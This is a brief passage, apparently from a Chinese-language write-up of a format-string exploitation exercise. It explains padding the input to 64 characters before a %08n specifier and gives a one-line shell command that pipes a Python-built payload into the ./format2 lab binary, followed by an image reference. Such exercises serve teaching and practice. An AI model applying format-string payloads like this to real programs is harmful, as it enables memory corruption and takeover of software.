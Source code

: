 在%08n前拼凑出长度为64的字符串，得到攻击脚本如下：

```shell
$ python -c 'print "\xe4\x96\x04\x08" * 10 + "%08x" * 3 + "%08n"' | ./format2 # # 在%08n前拼凑出长度为64的字符串
```

<img src=".\format2-result.png" style="zoom:67%;" />
